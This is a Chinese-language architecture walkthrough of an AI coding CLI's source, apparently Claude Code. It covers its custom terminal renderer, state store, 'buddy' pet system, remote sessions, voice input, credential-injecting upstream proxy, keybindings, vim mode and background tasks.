`src/ink.ts` 是对外门面。`render()` / `createRoot()` 会用 `withTheme()` 自动把 React 树包进 `ThemeProvider`，使 `ThemedBox/ThemedText` 无需每个调用点手动挂载（`ink.ts:14-31`）。

渲染入口 `root.ts`：

- `renderSync(node, options)`（`root.ts:76`）：同步创建 `Ink` 实例并挂载，按 stdout 复用实例（`instances` Map），返回 `{ rerender, unmount, waitUntilExit, cleanup }`
- `createRoot(options)`（`root.ts:129`）：react-dom 风格，先建 root 不渲染，`root.render(node)` 才挂载，便于多屏复用
- `wrappedRender`（`root.ts:107`）：异步入口，`await Promise.resolve()` 保留微任务边界，避免首帧在异步启动工作前同步触发

### 63.3 Ink 类核心

`src/ink/ink.tsx`（1723 行）。关键机制：

**React 集成**：用 `react-reconciler` 创建 `FiberRoot`，以 `ConcurrentRoot` 模式运行（`ink.tsx:262`）。主机配置在 `reconciler.ts`，将 React 虚拟 DOM 映射到自研的 `DOMElement`（`dom.ts`）。

**帧调度**（`ink.tsx:212-216`）：

```
scheduleRender = throttle(queueMicrotask(onRender), FRAME_INTERVAL_MS, {leading:true, trailing:true})
```

渲染推迟到微任务，确保 layout effects（如 `useDeclaredCursor`）先提交，光标无滞后一帧。

**双缓冲帧模型**（`frame.ts`）：`frontFrame`（上一帧/屏幕当前显示）+ `backFrame`（下一帧/正在绘制）。`Frame` 含 `screen`（字符网格）+ `viewport` + `cursor` + `scrollHint`。

### 63.4 与标准 Ink 的关键差异

| 维度 | 标准 Ink | 本项目自研 Ink |
|---|---|---|
| 布局引擎 | yoga-layout WASM | **纯 TS 移植** `native-ts/yoga-layout/`（单遍 flexbox）|
| 渲染策略 | 每帧整屏重绘 | **帧间 diff**（log-update 相对光标移动 + 损伤追踪 + 对象池复用）|
| 终端协议 | 基础 ANSI | **完整 termio 层**（CSI/DEC/OSC/SGR 分词，Kitty keyboard，modifyOtherKeys，鼠标跟踪，OSC 8 超链接，OSC 11 主题探测，终端标题/标签状态）|
| 屏幕 | 单缓冲 | **双缓冲 + alt screen**（`AlternateScreen` 组件切换主/备屏）|
| 选区/搜索 | 无 | **alt screen 内文本选区**、**搜索高亮** |
| 鼠标/点击 | 无 | **hit-test 点击分发 + hover** |
| 外部 TUI 交接 | 无 | `enterAlternateScreen/exitAlternateScreen`（vim/nano 交接）|
| 挂载 API | `render()` | `render()` + `createRoot()`（react-dom 风格）|
| 组件 | Box/Text | Box/Text/**ScrollBox**/**AlternateScreen**/Button/Link/Spacer/NoSelect/RawAnsi... |

```mermaid
flowchart TD
    INPUT[用户按键 / React setState] --> RECONC[react-reconciler commit]
    RECONC --> LAYOUT[onComputeLayout → yoga.calculateLayout]
    LAYOUT --> SCHED[scheduleRender throttle+microtask]
    SCHED --> RENDER[onRender]
    RENDER --> REND[renderer: DOM树→backFrame.screen]
    REND --> DAMAGE[损伤追踪 + 选区/搜索高亮覆盖层]
    DAMAGE --> SWAP[swap frontFrame ↔ backFrame]
    SWAP --> DIFF[LogUpdate.diff → Patch[] 相对光标移动]
    DIFF --> OPT[optimize Patch[]]
    OPT --> WRITE[writeDiffToTerminal ANSI 序列化]
    WRITE --> STDOUT[process.stdout]
```

## 第 64 章 布局引擎与帧调度

### 64.1 布局引擎

`src/native-ts/yoga-layout/index.ts`：纯 TypeScript 移植 Meta 的 yoga flexbox 引擎（替代原 WASM）。实现 flex-direction、grow/shrink/basis、align/justify、margin/padding/border/gap、width/height/min/max、position relative/absolute、display flex/none、measure 函数（文本节点）。`Ink` 在 `onComputeLayout` 回调中调 `yogaNode.calculateLayout(terminalColumns)`（`ink.tsx:239-258`）。

### 64.2 帧渲染流程

每帧 `onRender` 流程（`ink.tsx:420` 起）：

1. `flushInteractionTime()` —— 每帧只调一次 `Date.now()`
2. `renderer({...})` —— DOM 树经 yoga 布局后递归绘制到 `backFrame.screen`（`renderer.ts:38`）
3. 处理 sticky/auto-follow 滚动下的选区平移（`ink.tsx:462-513`）
4. 选区/搜索高亮覆盖层写入 screen buffer（`ink.tsx:534-552`）
5. 全损伤兜底：布局漂移/选区/高亮/`prevFrameContaminated` 时把 damage 设为全屏（`ink.tsx:559-566`）
6. log-update diff back vs front → `Patch[]` → `writeDiffToTerminal`

### 64.3 损伤追踪与帧间 diff

这是自研 Ink 性能的关键。标准 Ink 每帧整屏重绘，而本项目通过：

- **损伤追踪**：只标记发生变化的屏幕区域
- **log-update diff**：对比 frontFrame 与 backFrame，生成 `Patch[]`（相对光标移动指令），避免全屏重绘
- **对象池复用**：`StylePool`/`CharPool`/`HyperlinkPool` 复用样式/字符/超链接对象，减少 GC 压力

这些优化使得在长会话（2800+ 消息）下仍能保持流畅渲染。

## 第 65 章 组件体系与屏幕系统

### 65.1 主要 UI 组件

组件按职能分群（约 250+ 文件）：

**设计系统**（`components/design-system/`）：`ThemeProvider`、`ThemedBox`/`ThemedText`、`color`、`Dialog`、`Tabs`、`ProgressBar`、`FuzzyPicker`、`ListItem`、`Byline`、`Divider`、`StatusIcon`。主题支持 dark/light/auto（OSC 11 探测终端底色）。

**消息系统**：
- `Messages.tsx`：消息列表容器，负责 normalize/reorder/group/折叠。`LogoHeader` memo 化避免长会话每帧重绘
- `VirtualMessageList.tsx`：虚拟滚动 + 跳转/搜索 `JumpHandle`
- `components/messages/`：**按消息类型分文件渲染** —— 约 30 种消息类型（`AssistantTextMessage`、`AssistantThinkingMessage`、`AssistantToolUseMessage`、`UserTextMessage`、`UserBashInputMessage`、`PlanApprovalMessage`、`RateLimitMessage` 等）

**输入框**（`components/PromptInput/`）：`PromptInput.tsx`、`PromptInputFooter`、`ShimmeredInput`、`inputModes.ts`、`VoiceIndicator`、`HistorySearchInput`。

**流式输出**：`Spinner/`、`StreamingMarkdown`、`ToolUseLoader`。

**工具调用展示**：`FileEditToolDiff.tsx`、`StructuredDiff/`、`HighlightedCode/`、`shell/OutputLine.tsx`、`tasks/renderToolActivity.tsx`。

**权限/对话框**：`permissions/`、`mcp/`、`wizard/`、`diff/`、`TrustDialog/`。

### 65.2 屏幕系统

`src/screens/` 三个屏幕文件：`REPL.tsx`、`Doctor.tsx`、`ResumeConversation.tsx`。

REPL 是核心屏幕（巨型组件，`REPL()` 在 `REPL.tsx:572`）。屏幕通过本地 state 切换：`const [screen, setScreen] = useState<Screen>('prompt')`（`REPL.tsx:703`）。

**transcript 模式**（`REPL.tsx:4392`）：提前 return 渲染全屏滚动视图。两条路径：虚拟滚动分支（`<AlternateScreen>` 包 `<FullscreenLayout>`）和 30-cap dump 分支（直接渲染到原生终端 scrollback）。

**prompt 模式**（默认）：渲染主消息流 + PromptInput + 权限请求 + 各种 overlay。

**全屏布局**（`components/FullscreenLayout.tsx`）：`scrollable`（消息/工具输出，可滚动）+ `bottom`（spinner/prompt/权限，固定底部）+ `overlay`/`modal`/`bottomFloat`（绝对定位浮层）。

**键绑定分层**：`<KeybindingSetup>` → `<GlobalKeybindingHandlers>` → `<CommandKeybindingHandlers>` → `<ScrollKeybindingHandler>` → `<CancelRequestHandler>`。

## 第 66 章 状态管理与输出样式

### 66.1 自研轻量 store

`src/state/store.ts`：`createStore<T>(initialState, onChange)` 返回 `{ getState, setState(updater), subscribe }`。setState 用 `Object.is` 比较跳过未变，通知所有 listener。这是 zustand 风格但完全自研。

`AppStateStore.ts`：定义全局 `AppState` 类型（`AppStateStore.ts:89-452`，极其庞大）+ `getDefaultAppState()`（`:456`）。`AppState` 是 `DeepImmutable<{...}>` 包裹的核心字段集合，涵盖：settings、model、permissions、tasks、mcp、plugins、agentDefinitions、fileHistory、todos、notifications、elicitation、teamContext、inbox、speculation、ultraplan、replBridge 等几乎所有运行时状态。

### 66.2 React 绑定

`AppState.tsx`：

- `AppStateProvider`（`:37`）：`useState(() => createStore(...))` 建单例 store，通过 `AppStoreContext` 提供。监听外部 settings 文件变更同步进 store
- `useAppState(selector)`（`:142`）：基于 `useSyncExternalStore(store.subscribe, get)`，selector 返回值用 `Object.is` 比较，仅在切片变化时重渲染。**禁止返回新对象**（会恒判变）
- `useSetAppState()`（`:170`）：返回稳定 `setState`，不订阅状态
- `useAppStateStore()`（`:177`）：直接拿 store 传给非 React 代码

### 66.3 输出样式系统

`src/outputStyles/` + `src/constants/outputStyles.ts`。输出样式 = 注入到系统提示词的"风格指令"，配置驱动（markdown 文件 + frontmatter）。

`loadOutputStylesDir.ts`：从 `.claude/output-styles/*.md`（项目）和 `~/.claude/output-styles/*.md`（用户）加载。

内置样式：`default`(null)、`Explanatory`（教育性 insights）、`Learning`（要求人类贡献小段代码，含 Learn-by-Doing 请求格式）。`getAllOutputStyles(cwd)` 合并内置 + 插件 + 用户 + 项目 + 策略样式，按优先级覆盖（policy > project > user > managed > plugin > built-in）。

### 66.4 moreright 目录

`src/moreright/useMoreRight.tsx` 是**外部构建的 stub（占位）**。文件头注释明确："Stub for external builds — the real hook is internal only." 提供空操作 `useMoreRight()`，返回 `onBeforeQuery`/`onTurnComplete`/`render`。在 REPL 中 `useMoreRight()` 调用，但 `moreRightEnabled = "external" === 'ant' && isEnvTruthy(process.env.CLAUDE_MORERIGHT)`，即 ant 构建 + CLAUDE_MORERIGHT 环境变量才启用真实逻辑，外部构建该功能被 dead-code 消除。

---

# 第十二部分 Buddy 终端宠物系统

`src/buddy/` 实现了一个完整的 Tamagotchi 风格的终端宠物系统。这是 Claude Code 中最有趣、最"非功能性"的子系统，但它展现了精巧的工程实现——确定性抽卡、ASCII 艺术、React 动画。

## 第 67 章 物种与稀有度

### 67.1 18 个物种

`src/buddy/types.ts` 第 54-73 行定义 `SPECIES` 数组，18 个物种全部存在，**没有按稀有度分类**——稀有度是独立抽取的属性：

```
duck（鸭）、goose（鹅）、blob（史莱姆）、cat（猫）、dragon（龙）、octopus（章鱼）、owl（猫头鹰）、penguin（企鹅）、turtle（乌龟）、snail（蜗牛）、ghost（幽灵）、axolotl（蝾螈/六角恐龙）、capybara（水豚）、cactus（仙人掌）、robot（机器人）、rabbit（兔子）、mushroom（蘑菇）、chonk（肥猫）
```

### 67.2 字符串混淆的有趣细节

`types.ts` 第 10-52 行：物种名不是直接写字符串字面量，而是用 `String.fromCharCode` 逐字符构造。注释解释（第 10-13 行）：其中一个物种名与 `excluded-strings.txt` 里的 **model-codename canary（模型代号金丝雀）** 冲突。构建产出的字符串会触发 grep 检查，所以用运行时构造绕开字面量检查，同时保留对真实代号字符串的检查能力。这揭示了 Claude Code 内部维护着一个"禁止出现的模型代号"列表，物种名中恰好有一个与之冲突。

### 67.3 稀有度体系

定义在 `types.ts` 第 1-8 行，5 级：`common → uncommon → rare → epic → legendary`。

- **抽取权重** `RARITY_WEIGHTS`（types.ts 第 126-132 行）：common 60 / uncommon 25 / rare 10 / epic 4 / legendary 1（总和 100）
- **星级显示** `RARITY_STARS`：`★` 到 `★★★★★`
- **主题色** `RARITY_COLORS`：common→`inactive`（灰）、uncommon→`success`（绿）、rare→`permission`（黄）、epic→`autoAccept`（青）、legendary→`warning`（橙红）
- **属性下限** `RARITY_FLOOR`（companion.ts 第 53-59 行）：common 5 / uncommon 15 / rare 25 / epic 35 / legendary 50

## 第 68 章 确定性抽卡机制

`src/buddy/companion.ts` 实现确定性抽卡。核心不变量：**同一 userId 永远抽到同一只 buddy**。

### 68.1 数据流总览

"骨头"（bones，即稀有度/物种/眼睛/帽子/闪光/属性）每次从 hash(userId) 重新推导，绝不持久化；持久化的只有"灵魂"（soul：名字 + 性格，LLM 生成）。调用链：

```
companionUserId()           // 读全局配置拿 userId（第 119-122 行）
  → roll(userId)            // 第 107-113 行：拼接 SALT，查缓存
    → mulberry32(hashString(userId + SALT))   // 种子 = hash(带盐的 userId)
      → rollFrom(rng)       // 第 91-102 行：依次抽稀有度、物种、眼睛、帽子、shiny、属性
```

### 68.2 种子生成：hashString + SALT

- `hashString(s)`（companion.ts 第 27-37 行）：优先用 `Bun.hash`（取低 32 位），否则回退 **FNV-1a 32 位哈希**（初值 2166136261，乘 16777619，`>>> 0` 转无符号）
- `SALT = 'friend-2026-401'`（第 84 行）：盐串，保证哈希空间与其它用途隔离
- `roll()` 用 `userId + SALT` 作为 key 做**单元素 LRU 缓存**（`rollCache`，第 106-113 行）。理由：`roll` 会从三条热路径被调用——500ms 的精灵 tick、每次按键的 PromptInput、每轮对话的 observer，同一个 userId 必须返回同一结果

### 68.3 抽卡过程 rollFrom

按顺序消耗 PRNG 序列，顺序固定（保证跨次一致）：

1. `rollRarity(rng)`：加权轮盘——`rng() * total` 依次减去各稀有度权重，落入区间即命中
2. `species = pick(rng, SPECIES)`：等概率抽物种
3. `eye = pick(rng, EYES)`：从 6 种眼睛 `['·','✦','×','◉','@','°']` 等概率抽
4. `hat`：**common 稀有度强制 `'none'`**，否则从 8 种帽子等概率抽
5. `shiny`：`rng() < 0.01`，1% 闪光概率
6. `stats = rollStats(rng, rarity)`：抽属性
7. `inspirationSeed = Math.floor(rng() * 1e9)`：额外消耗一个随机数，作为后续 soul 生成的灵感种子

### 68.4 属性系统 rollStats

5 项属性 `STAT_NAMES`（types.ts 第 91-98 行）：**DEBUGGING（调试）、PATIENCE（耐心）、CHAOS（混乱）、WISDOM（智慧）、SNARK（毒舌）**

抽取规则（"一峰一谷，其余随机散布"）：

- `peak`（主属性）：随机选一个 → `min(100, floor + 50 + rng()*30)`
- `dump`（废属性）：再随机选一个且不能等于 peak → `max(1, floor - 10 + rng()*15)`
- 其余三个：`floor + rng()*40`
- 稀有度通过 `RARITY_FLOOR` 抬高所有数值的下限

效果：传奇（floor 50）峰值至少 100，普通（floor 5）峰值约 55-85，鲜明体现"越稀有越强"。

```mermaid
flowchart TD
    UID[userId] --> SALT[+ SALT 'friend-2026-401']
    SALT --> HASH[hashString → 32位种子]
    HASH --> MUL[mulberry32 PRNG]
    MUL --> R1[1. rollRarity 加权轮盘 60/25/10/4/1]
    R1 --> R2[2. pick species 等概率18物种]
    R2 --> R3[3. pick eye 6种眼睛]
    R3 --> R4[4. hat common强制none否则8种]
    R4 --> R5[5. shiny 1%闪光]
    R5 --> R6[6. rollStats 一峰一谷]
    R6 --> R7[7. inspirationSeed]
    R7 --> CACHE[rollCache 单槽缓存]
    CACHE --> COMP[Companion bones]
    NOTE[同一userId永远同输出<br/>bones不持久化 防作弊] -.-> COMP
```

## 第 69 章 灵魂系统与渲染

### 69.1 骨头 vs 灵魂的分层

```ts
export type CompanionSoul = { name: string; personality: string }      // LLM 生成的灵魂
export type Companion = CompanionBones & CompanionSoul & { hatchedAt: number }
export type StoredCompanion = CompanionSoul & { hatchedAt: number }    // 实际持久化到 config 的
```

- **骨头（Bones）= 确定性部分**：从 hash(userId) 推导，不持久化
- **灵魂（Soul）= 模型生成部分**：首次"孵化"后存入 config。`StoredCompanion` 只含 `name`、`personality`、`hatchedAt`

注释说明这种分离的两个理由：① 物种改名或编辑 `SPECIES` 数组不会弄坏已存 companion；② 用户手动编辑 `config.companion` 无法伪造出传奇稀有度（因为稀有度由 userId 重新推导覆盖）。这是一种防作弊设计——玩家不能通过改配置文件获得传奇宠物。

### 69.2 CompanionSprite.tsx 渲染

核心常量（sourcemap 内嵌源码）：

```ts
const TICK_MS = 500;          // 动画帧间隔
const BUBBLE_SHOW = 20;       // 气泡显示 20 tick ≈ 10 秒
const FADE_WINDOW = 6;        // 最后 ~3 秒气泡变暗
const PET_BURST_MS = 2500;    // /buddy pet 后爱心漂浮时长
```

**状态与动画状态机**：订阅 AppState 的 `companionReaction`（最新台词）、`companionPetAt`（上次 /buddy pet 时间戳）、`footerSelection`（焦点）。另用本地 `useState(tick)` 每 500ms +1 驱动动画。

帧选择逻辑：

- **兴奋态**（有台词或正在被摸）：`tick % frameCount` 快速循环所有帧
- **待机态**：走 `IDLE_SEQUENCE = [0,0,0,0,1,0,0,0,-1,0,0,2,0,0,0]`（绝大多数是帧 0 休息，偶尔帧 1-2 小动作，`-1` 表示"在帧 0 上眨眼"）

**眨眼**实现：`blink` 时把精灵所有行里的 `companion.eye` 字符替换成 `-`（闭眼）。

**摸头爱心**：`PET_HEARTS` 是 5 帧由 `figures.heart` 拼成的上升扩散动画，`petting` 期间 prepend 在精灵上方。

### 69.3 三档终端宽度布局

1. **窄终端（columns < 100）**：塌缩成单行——只渲染 `renderFace()` 表情 + 名字/台词。台词超过 24 字符截断加 `…`
2. **宽终端 + 非全屏**：气泡（`tail="right"`）内联贴在精灵左边，`flexShrink={0}` 防止被挤压
3. **宽终端 + 全屏**：气泡不内联，改由 `CompanionFloatingBubble` 渲染在 `FullscreenLayout` 的 `bottomFloat` 槽位

`MIN_COLS_FOR_FULL_SPRITE = 100` 是宽度阈值。

### 69.4 sprites.ts ASCII 精灵图

`BODIES` 表（第 26-441 行）：`Record<Species, string[][]>`，**18 个物种 × 每物种 3 帧**（0=休息、1-2=动作帧）。规格：**5 行高 × 12 列宽**，眼睛用占位符 `{E}`（渲染时替换为实际眼睛字符），**第 0 行是帽子槽位**。

`HAT_LINES`（第 443-452 行）：8 种帽子的单行 ASCII：`crown` `\^^^/`、`tophat` `[___]`、`propeller` `-+-`、`halo` `(   )`、`wizard` `/^\`、`beanie` `(___)`、`tinyduck` `,>`（小鸭子立在头上），`none` 为空。

渲染函数 `renderSprite(bones, frame)`（第 454-469 行）：取该物种帧数组 → `frame % frames.length` 取帧 → 每行 `replaceAll('{E}', bones.eye)` 填入眼睛 → 若第 0 行空且戴了帽子则覆盖为帽子 → 若第 0 行空且所有帧第 0 行都空则 `shift()` 删掉空行（避免高度跳动）。

### 69.5 灵魂如何进入 LLM 上下文

`src/buddy/prompt.ts`：

- `companionIntroText(name, species)`（第 7-13 行）：返回 Markdown 文本，声明一只叫 `<name>` 的 `<species>` 坐在用户输入框旁，会偶尔在气泡里评论；"你不是 `<name>`，它是独立的观察者"。行为指令：当用户直接叫名字时只回一行以内，或只回答话里针对自己的部分；不要解释"你不是 `<name>`"
- `getCompanionIntroAttachment(messages)`（第 15-36 行）：返回 `Attachment[]`。开启 BUDDY 且未静音时构造 `{ type: 'companion_intro', name, species }`；**去重逻辑**——遍历历史消息，若已存在同名 `companion_intro` 附件则跳过，避免每次对话重复自我介绍

集成到对话管线：`attachments.ts` 第 866-867 行调用 `getCompanionIntroAttachment`；`messages.ts` 第 4232-4238 行 `companion_intro` 附件渲染成 `wrapMessagesInSystemReminder(createUserMessage({ content: companionIntroText(...), isMeta: true }))`，即作为**系统提醒注入**当前轮上下文。

### 69.6 feature 门控与启动预告

`useBuddyNotification.tsx`：

- `isBuddyTeaserWindow()`（第 12-16 行）：**2026 年 4 月 1-7 日**的预告窗口（本地时区而非 UTC，注释解释：形成 24 小时滚动传播，避免 UTC 午夜集中尖峰，减轻 soul 生成负载）
- `isBuddyLive()`（第 17-21 行）：2026 年 3 月（含）之后即视为已上线
- `useBuddyNotification()`（第 43-78 行）：hook。条件：BUDDY 特性开启、config 里还没有 companion、且处于预告窗口。满足则通过 `useNotifications()` 的 `addNotification` 添加 key 为 `'buddy-teaser'`、`priority: 'immediate'`、`timeoutMs: 15000` 的彩虹 `/buddy` 提示

注：`commands/buddy/index.js` 与 `src/buddy/observer.ts`（台词生成、soul 生成的具体 LLM 逻辑）在公开源码中不存在，属于 feature-gated 注入模块。

---

# 第十三部分 其他子系统

## 第 70 章 远程会话 CCR

`src/remote/` 实现 Claude Code Remote（CCR）会话——Claude 在远端容器中执行，本地 CLI 作为 viewer/controller。

### 70.1 双向通道架构

- `RemoteSessionManager.ts`（class `RemoteSessionManager`，第 95 行）
  - **下行**：WebSocket 订阅（`SessionsWebSocket`）接收 SDKMessage 流
  - **上行**：`sendMessage()`（第 219 行）通过 HTTP POST `sendEventToRemoteSession` 发送用户消息
  - 权限流：`handleControlRequest`（第 189 行）处理 `control_request`（`can_use_tool` 子类型），`respondToPermissionRequest`（第 247 行）回 `control_response`
  - `cancelSession()` 发送 `interrupt` 控制请求
  - `viewerOnly` 模式（纯观看，`claude assistant`）

- `SessionsWebSocket.ts`：连接 `wss://api.anthropic.com/v1/sessions/ws/{id}/subscribe?organization_uuid=...`，Bearer 认证；重连策略：`4003` 永久失败不重连、`4001`（会话不存在）限 3 次重试、一般最多 5 次、30s ping

- `sdkMessageAdapter.ts`：`convertSDKMessage()`（第 168 行）把 CCR 发来的 SDK 消息转换为 REPL 内部 `Message` 类型；未知类型优雅忽略

- `remotePermissionBridge.ts`：`createSyntheticAssistantMessage()`（第 12 行）为远端权限弹窗伪造 AssistantMessage；`createToolStub()`（第 53 行）为本地没有的 MCP 工具造 stub

### 70.2 UI 侧

`src/hooks/useRemoteSession.ts`（23KB）编排整个远程会话界面；`src/hooks/useSSHSession.ts` 支持 SSH 会话。

## 第 71 章 语音输入

### 71.1 功能开关

`src/voice/voiceModeEnabled.ts`：

- `isVoiceGrowthBookEnabled()`（第 16 行）：GrowthBook kill-switch（`tengu_amber_quartz_disabled`）
- `hasVoiceAuth()`（第 32 行）：要求 Anthropic OAuth（voice_stream 端点不支持 API key/Bedrock/Vertex）
- `isVoiceModeEnabled()`（第 52 行）：两者相与

### 71.2 采集

`src/services/voice.ts`：

- 首选原生 `audio-capture-napi`（cpal，16kHz/16-bit/mono，`RECORDING_SAMPLE_RATE=16000`）
- 回退：Linux 下 `arecord`（ALSA）→ SoX `rec`（含静音检测参数，`SILENCE_DURATION_SECS='2.0'`）
- `checkRecordingAvailability()`（第 259 行）：远端环境（homespace/`CLAUDE_CODE_REMOTE`）禁用
- 懒加载 native 模块避免启动卡顿（第 24 行）

### 71.3 转写

`src/services/voiceStreamSTT.ts` 的 `connectVoiceStream()`（第 111 行）连接 Anthropic `voice_stream` WebSocket 端点（`/api/ws/speech_to_text/voice_stream`），OAuth Bearer；协议为 JSON 控制消息（`KeepAlive`/`CloseStream`）+ 二进制音频帧；服务端回 `TranscriptText`/`TranscriptEndpoint`/`TranscriptError`。查询参数含 `encoding=linear16, sample_rate=16000, endpointing_ms=300, utterance_end_ms=1000`、语言、`keyterms`（Deepgram 关键词 boosting）。支持 Nova 3（`tengu_cobalt_frost` gate，第 157 行）。`finalize()` 的四种结束源（第 60 行）与 keepalive（8s）。

### 71.4 关键词

`src/services/voiceKeyterms.ts`：硬编码编程术语（MCP、symlink、regex、TypeScript 等）+ 会话上下文（项目名、分支名、当前文件名）最多 50 个，用于提升转写准确率。

### 71.5 编排与注入

`src/hooks/useVoice.ts` 的 `useVoice`（第 199 行）：

- hold-to-talk：`handleKeyEvent()`（第 1022 行）→ `startRecordingSession()`（第 633 行）→ `connectVoiceStream` → 录音 chunk 经 `connection.send()` 流式上传
- 按键释放判定：auto-repeat 间隔 > `RELEASE_TIMEOUT_MS`(200ms) 即停止
- 转写累积在 `accumulatedRef`，最终文本经 `onTranscript` 回调传出

注入输入框：`src/hooks/useVoiceIntegration.tsx` 的 `handleVoiceTranscript`（第 281 行）—— 用 `voicePrefixRef`/`voiceSuffixRef` 锚定插入点，`insertTextRef.current.setInputWithCursor(newInput, cursorPos)` 把转写文本插入输入框，光标置于转写之后；`interimRange`（第 328 行）供 UI 调暗未定稿文本。

```mermaid
sequenceDiagram
    participant U as 用户
    participant V as useVoice
    participant REC as 采集
    participant STT as voiceStream
    participant IN as 输入框

    U->>V: 按住按键(hold-to-talk)
    V->>REC: startRecordingSession (16kHz/16-bit)
    REC->>STT: connectVoiceStream (WS)
    loop 录音中
        REC->>STT: 二进制音频帧 send()
        STT-->>V: TranscriptText (增量转写)
        V->>IN: interimRange 调暗未定稿
    end
    U->>V: 释放按键(>200ms auto-repeat)
    V->>STT: finalize()
    STT-->>V: 最终文本
    V->>IN: insertWithCursor 插入文本 光标置后
```

## 第 72 章 上游代理 upstreamproxy

**注意：它不是代理 LLM 请求**，而是 **CCR 容器侧出站 HTTPS 的 MITM 代理**，用于给容器内工具（curl/gh/kubectl）的请求注入组织配置的凭据（如 Datadog API key）。

### 72.1 容器侧初始化

`src/upstreamproxy/upstreamproxy.ts` 的 `initUpstreamProxy()`（第 79 行）：

1. 要求 `CLAUDE_CODE_REMOTE` 且 `CCR_UPSTREAM_PROXY_ENABLED`
2. 读取会话 token `/run/ccr/session_token`
3. `setNonDumpable()`（第 225 行）通过 bun:ffi 调 `prctl(PR_SET_DUMPABLE, 0)` 防 ptrace 窃取 token
4. 下载 CA 证书（`/v1/code/upstreamproxy/ca-cert`）与系统 bundle 合并到 `~/.ccr/ca-bundle.crt`
5. 启动本地 relay（`relay.ts`），**之后才 unlink token 文件**（失败可重试）
6. `getUpstreamProxyEnv()`（第 160 行）向所有子进程注入 `HTTPS_PROXY`/`NO_PROXY`/`SSL_CERT_FILE` 等（Bash/MCP/LSP/hooks 全部继承）

### 72.2 本地 relay

`src/upstreamproxy/relay.ts` 的 `startUpstreamProxyRelay()`（第 155 行）：本地 127.0.0.1 TCP 监听，解析 `HTTP CONNECT` 请求，把字节通过 WebSocket 隧道到 `/v1/code/upstreamproxy/ws`，wire 格式为手编 protobuf `UpstreamProxyChunk`（`encodeChunk`/`decodeChunk`，第 66/87 行）；服务端终结隧道做 MITM 并注入凭据；30s keepalive（空 chunk）。

`NO_PROXY_LIST`（第 37 行）放行 localhost、RFC1918、IMDS、`*.anthropic.com`、github、npm/pypi/crates/goproxy 等，避免 MITM 破坏信任链。

```mermaid
graph LR
    TOOL[容器内工具 curl/gh] -->|HTTPS CONNECT| RELAY[127.0.0.1 本地relay]
    RELAY -->|WS隧道 protobuf chunk| SRV[CCR服务端]
    SRV --> MITM[终结隧道 MITM]
    MITM --> INJ[注入组织凭据]
    INJ --> UP[真实上游如 Datadog]
    style RELAY fill:#ffe
    style SRV fill:#eef
    style INJ fill:#efe
```

## 第 73 章 键盘绑定与 Vim 模式

### 73.1 键盘绑定系统

`src/keybindings/`：

- **默认绑定**：`defaultBindings.ts` 的 `DEFAULT_BINDINGS`（第 32 行），按 context 分组：`Global`（ctrl+c interrupt、ctrl+d exit、ctrl+l redraw、ctrl+t todos、ctrl+o transcript、ctrl+r history）、`Chat`（escape cancel、`ctrl+x ctrl+k` killAgents chord 示例、`shift+tab`/`meta+m` cycleMode、enter submit、`space` voice:pushToTalk）、`Autocomplete`、`Settings`、`Confirmation`、`Tabs`、`Transcript`、`HistorySearch`、`Task`、`ThemePicker`、`Scroll` 等。平台差异：Windows 图片粘贴用 `alt+v`
- **解析**：`parser.ts` 的 `parseKeystroke()`（如 `ctrl+shift+k`，支持 ctrl/control、alt/opt/meta、cmd/command/super/win 别名）、`parseChord()`（空格分隔多键）
- **匹配**：`resolver.ts` 的 `resolveKeyWithChordState()`（第 166 行，chord 状态机：前缀命中→`chord_started`，escape 取消）
- **用户配置加载**：`loadUserBindings.ts` 读 `~/.claude/keybindings.json`，默认+用户合并，chokidar 热重载；**目前仅对 Anthropic 员工开放**（`isKeybindingCustomizationEnabled` GrowthBook gate）
- **校验**：`validate.ts`（重复键、非法 context/action）、`reservedShortcuts.ts`（ctrl+c/ctrl+d 不可重绑）

### 73.2 Vim 模式

`src/vim/` 状态机在 `types.ts` 中完整定义（注释即文档）：

- **状态机**：`VimState`（INSERT 记录 `insertedText` / NORMAL 记录 `CommandState`）；`CommandState` 有 `idle → count → operator → operatorCount/operatorFind/operatorTextObj`、`find`、`g`、`replace`、`indent` 等状态
- **转换表**：`transitions.ts` 的 `transition()`（第 59 行）按状态分发，每个状态一个 `fromXxx` 函数；`handleNormalInput`（第 98 行）处理 idle/count 下的操作符、motion（`h/j/k/l/w/b/e/W/B/E/0/^/$`）、find（`f/F/t/T`）、`g`、`r`、`> <`、`~`、`x`、`J`、`p/P`、`D/C/Y`、`G`、`.`（dot-repeat）、`; ,`（重复 find）、`u`（undo）、`i/I/a/A/o/O`
- **motion**：`motions.ts` `resolveMotion()`
- **操作符**：`operators.ts` — `executeX`、`executeReplace`、`executeOperatorMotion`、`executeOperatorTextObj`、`executePaste`、`executeIndent`、`executeJoin`、`executeOpenLine`、`executeToggleCase` 等
- **文本对象**：`textObjects.ts`（`i`/`a` scope + `w W " ' ( ) b [ ] { } B < >`）
- **持久状态**：`PersistentState`（lastChange、lastFind、register、registerIsLinewise），支持 dot-repeat 与寄存器
- **React 集成**：`src/hooks/useVimInput.ts` 把 vim 状态机接到 `useTextInput`；Esc 在 INSERT→NORMAL 切换（**有意不迁移到 keybindings 系统**，第 189 行注释）；Ctrl 键始终透传给基础处理器；方向键在 NORMAL 下映射为 `h/j/k/l`；`replayLastChange()`（第 109 行）实现 dot-repeat

## 第 74 章 后台任务机制

### 74.1 核心类型

`src/Task.ts`：

- `TaskType`：`local_bash`/`local_agent`/`remote_agent`/`in_process_teammate`/`local_workflow`/`monitor_mcp`/`dream`
- `TaskStatus`：pending/running/completed/failed/killed
- `TaskStateBase`（含 `outputFile`、`outputOffset`、`notified`）、`Task` 接口（`kill` 方法）、`generateTaskId()`（类型前缀 + 8 字符随机，防 symlink 爆破，第 96 行）

### 74.2 注册表与实现

`src/tasks.ts` 的 `getAllTasks()`/`getTaskByType()`；具体实现：

- `LocalShellTask/LocalShellTask.tsx`（66KB）— bash 任务
- `LocalAgentTask/LocalAgentTask.tsx`（83KB）— 子代理任务
- `RemoteAgentTask/RemoteAgentTask.tsx`（127KB）— 远程（CCR）代理任务
- `InProcessTeammateTask/InProcessTeammateTask.tsx` — swarm 队友（进程内）
- `DreamTask/DreamTask.ts` — 记忆巩固任务

`src/tasks/types.ts` 的 `isBackgroundTask()`（第 37 行）— running/pending 且已显式后台化。

### 74.3 主会话后台化

`src/tasks/LocalMainSessionTask.ts` — Ctrl+B 双击把当前查询后台化：

- `registerMainSessionTask()`（第 94 行）注册任务、复用/新建 AbortController
- `startBackgroundSession()`（第 338 行）用现有 messages 另起独立 `query()`
